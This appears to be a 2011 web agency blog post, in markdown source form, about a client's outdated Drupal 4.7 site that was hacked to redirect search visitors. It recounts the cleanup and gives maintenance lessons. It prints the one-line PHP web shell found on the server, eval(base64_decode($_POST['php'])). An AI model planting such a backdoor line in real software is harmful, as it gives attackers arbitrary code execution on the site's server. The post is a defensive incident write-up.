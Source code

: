```yaml
---
title: 'Lessons Learned from a Hacked Website'
templateKey: blog-post
date: 2011-12-28T15:35:52.000Z
category: 
  -Development, Drupal
alias: lessons-learned-hacked-website
summary: > 
 Within the last couple of months one of our client’s websites was hacked. This is a rarity, and we responded swiftly to restore a previous version of the site; however, we still needed to get rid of the actual problem. Through the experience there were a number of lessons learned that anyone, whether client or developer could benefit from. 
author: Art Williams
image: /assets/hacking_0.jpg
---
```


Within the last couple of months one of our client’s websites was hacked. This is a rarity, and we responded swiftly to restore a previous version of the site; however, we still needed to get rid of the actual problem. Through the experience there were a number of lessons learned that anyone, whether client or developer could benefit from. 

Reason the site was hacked
--------------------------

The story starts with a website that was built by Digett over five years ago. When you consider that the first website ever was created on August 6, 1991, a five year-old website today is 25% as old as the entire World Wide Web — that’s a long time for a website to live. The more substantial statistic is that in its five-year existence, this site had never been updated, and was still running version 4.7 of the Drupal content management system (the current stable version of Drupal is version 7). The site allows visitors to post pictures and text to the site without needing to login to the site, a kind of activity that is especially difficult to insulate against hacking attempts. These factors combined into the perfect storm, and the site was hacked.

Type of hack
------------

Whenever a user typed the address to the site into their browser they made it to the site and could navigate as if there was no problem; but users who searched for the site on Google or any other search engine were redirected to the hacker’s website when they clicked on the search result. The nature of this hack made it difficult to detect. Typically those most familiar with a site, such as the owner and the developer, will just enter the address directly and see nothing wrong with the site — only on the rare chance that someone close to the site searches for it will the hack be detected.

Resolution
----------

After repeated attempts to clean the site just to see it re-hacked the next day, we were able to convince the client that the best course of action was to update the site. The site was upgraded to Drupal 7, which would take a few blog posts to describe, and we thought we were in the clear. The site remained clean for a week or so, only to be hacked yet again. By this point we wanted to pull our hair out. We started from the beginning and began to systematically eliminate possibilities. We changed database passwords, FTP passwords, and Drupal login credentials. We cleaned the database of all ‘php’, ‘script’, and ‘perl’ strings. And each morning we arrived to a newly hacked site. This went on for two days. On the third day, after half a dozen runs through the file system looking for malicious code, we finally tracked down the culprit — a single php file with one line of code:

eval(base64\_decode($\_POST\["php"\]))

Once removed the site has remained clean for a couple of weeks now. (For those who are interested, this code allows someone who knows the location of the file to attach any php code they want as the value of the ‘php’ key in the attribute string of the url. In short they can run any php code they want. It’s bad stuff!)

A learning experience
---------------------

In my opinion the age of the site code base was the underlying reason for the initial hack. Once that was updated the site vulnerabilities were eliminated. The only thing left was a sneaky and tenacious line of malicious code that had survived the upgrade process. Anyone still running a site on Drupal 4.7 is playing with fire, but sometimes it’s hard to convince clients who have spent good money on a professional site that it’s time to do it again.

### Lessons for clients

Budget the money to keep your site code up to date with the latest security patches. Ask your developer how much is needed and how often it should be done. I touched on [reasons to update your Drupal site](/blog/08/31/2011/case-upgrading-your-drupal-website) earlier this year. Talk with your site developer about other possible security concerns that should be addressed. With this site we were dealing with I would prefer from a security standpoint that users be required to login to the site before posing images and text. If that isn’t possible, then work out the limitations to what anonymous users are allowed to post and clamp down on everything else.

### Lessons for developers

Prepare your clients during the initial sales process for the ongoing maintenance costs of your particular framework. Then you won’t find yourself in the position of trying to convince clients to upgrade five years later. Have a plan for the eventuality of a site getting hacked. Have backups and build a checklist of your procedure to make sure no malicious code sneaks past you. This whole experience was rather painful for the client and us, but if we can learn these lessons and prevent other clients and developers from making these mistakes, then at least our experience was worth it. If you are a client of Digett or any other web development company and you are not sure if your site is being kept up to date through a maintenance retainer, contact your developer now and ask how to get that issue resolved.